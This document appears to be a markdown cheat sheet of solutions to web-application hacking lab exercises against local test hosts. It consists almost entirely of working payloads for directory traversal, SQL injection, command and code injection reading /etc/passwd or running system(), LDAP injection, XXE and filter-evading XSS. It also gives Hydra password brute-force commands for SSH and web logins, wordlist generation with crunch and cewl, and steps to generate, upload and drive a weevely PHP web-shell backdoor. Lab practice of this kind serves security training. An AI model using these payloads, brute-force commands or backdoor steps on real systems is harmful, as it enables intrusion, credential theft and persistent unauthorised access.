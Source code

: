 # Phase III: Vulnerbility discovery & Exploitation
### Directory Traversal
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | /var/www/files/../../../etc/passwd |
| example&nbsp;3 | ../../../etc/passwd%00 `Null Bytes Injection` |

### File Include
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | ../../../etc/passwd%00 `Null Bytes Injection` |

### SQL Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | root'+OR+'1'='1, `root'OR+1=1+--` |
| example&nbsp;2 | root'%09OR'1'='1 |
| example&nbsp;3 | root'/**/OR/**/'1'='1 |
| example&nbsp;4 | 2+OR+1=1 |
| example&nbsp;5 | 2+OR+1=1#123 |
| example&nbsp;6 | 2+OR+1=1#123 |
| example&nbsp;7 | 2%0AOR+1=1# |
| example&nbsp;8 | name\`,IF((SELECT+0x61)=0x61%2Cid%2Cage)+%23 |
| example&nbsp;9 | IF((SELECT+0x61)=0x61%2Cid%2Cage), `IF((SELECT'a')='a',id,age)` |

### Command Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example&nbsp;2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example&nbsp;3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |

### LDAP attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/ldap/example1.php `remove all parameter` |
| example&nbsp;2 | http://10.0.2.4/ldap/example2.php?name=hacker)(cn=*))%00&password=1234 |

### XML attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/xml/example1.php?xml=%3C%21DOCTYPE%20foo%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Ctest%3E%26xxe%3B%3C%2Ftest%3E `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>` |
| example&nbsp;2 | http://10.0.2.4/xml/example2.php?name=hacker%27+or+1=1]%00 `hacker'+or+'1'='1`|

## Hydra
### Secure Shell
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l root
	  ssl://10.0.4.5
	  -f -vVd 
	  -o result.txt
	  -e nsr

### Basic Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-get "/auth"
	  -f
### Form Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-post-form "/login:username=^USER^:password=^PASS^:submit=Login:F=Invalid username"
	  -f

### DVWA Authentication
hydra -l admin -P /usr/share/wordlists/rockyou.txt 	
	  192.168.7.159 http-get-form 
	  "/dvwa/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=Login:F=password incorrect"
	  -f
	  -vVd

### Create WordList
* crunch 4 4 `minimum 4 characters and maximum  4 characters`
* crunch 4 4 -o mywordlist.txt
* crunch 4 4 1234567890 -o mywordlist.txt
* crunch 4 4 -t @%,^ -o mywordlist.txt `@=lowercase characters, %=numbers, ,=uppercase characters, ^=symbols`
* crunch 4 4 -f /usr/share/crunch/charset.lst lalpha -o mywordlist
* cewl -d 2 -m 4 -w test.txt http://www.php.net `-d=depth, -m=minimum word length, -w=write`

### Code Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/codeexec/example1.php?name=hacker".system('uname -a');# |
| example&nbsp;2 | http://10.0.2.4/codeexec/example2.php?order=id);}system('uname%20-a');%2F%2F |

### XSS
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/xss/example1.php?name=%3Cscript%3Ealert(1)%3C%2fscript%3E |
| example&nbsp;2 | http://10.0.2.4/xss/example2.php?name=<scri<sCrIpt>pt>alert(1)<%2fscri<%2fScRipt>pt> |
| example&nbsp;3 | http://10.0.2.4/xss/example3.php?name=<scri<sCrIpt>pt>alert(1)<%2fscri<%2fScRipt>pt> |
| example&nbsp;4 | http://10.0.2.4/xss/example4.php?name=<img src=xxx onerror=alert(1)> |
| example&nbsp;5 | http://10.0.2.4/xss/example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script> |
| example&nbsp;6 | http://10.0.2.4/xss/example6.php?name=hacker";alert(1)%2f%2f |
| example&nbsp;7 | http://10.0.2.4/xss/example7.php?name=hacker';alert(1)%2f%2f |
| example&nbsp;8 | http://10.0.2.4/xss/example8.php/"><script>alert(1)</script> |
| example&nbsp;8 | http://10.0.2.4/xss/example9.php/#<script>alert(1)</script> |

### Backdoor
## weevely
 1. weevely generate 1234 /root/hack.php
 2. upload file
 3. weevely http://.../upload/hack.php 123
 4. weevely> help
 5. weevely> :system_info
 6. weevely> :audit_etcpasswd
 7. weevely> :bruteforce_sql